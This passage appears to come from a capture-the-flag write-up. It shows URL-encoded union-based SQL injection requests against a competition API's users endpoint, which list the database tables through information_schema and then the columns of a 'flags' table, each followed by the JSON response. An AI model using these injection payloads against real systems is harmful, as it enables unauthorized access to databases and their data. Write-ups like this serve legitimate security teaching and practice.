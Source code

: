 Next I got a listing of all the tables (omitting irrelevant fields/tables):

```
GET /v1/users/0"%20union%20select%201,table_name,3,4,5,6%20from%20information_schema.tables;%20--%20 HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz
```

```json
{
    "status": 200,
    "message": "Success",
    "data": [
        {
            "username": "auth",
        },
        {
            "username": "flags",
        },
        {
            "username": "images",
        },
        {
            "username": "patchNotes",
        },
        {
            "username": "profiles",
        },
        {
            "username": "ratelimit",
        },
        {
            "username": "ticketHistory",
        },
        {
            "username": "ticketMessages",
        },
        {
            "username": "tickets",
        }
    ]
}
```

From this, one table stood out: `flags`.

The next step is to find out the columns for the flags table (omitting irrelevant fields):

```
GET /v1/users/0"%20union%20select%201,column_name,3,4,5,6%20from%20information_schema.columns%20where%20table_name%20=%20"flags";%20--%20 HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz
```

```json
{
    "status": 200,
    "message": "Success",
    "data": [
        {
            "username": "id",
        },
        {
            "username": "flag",
        }
    ]
}
```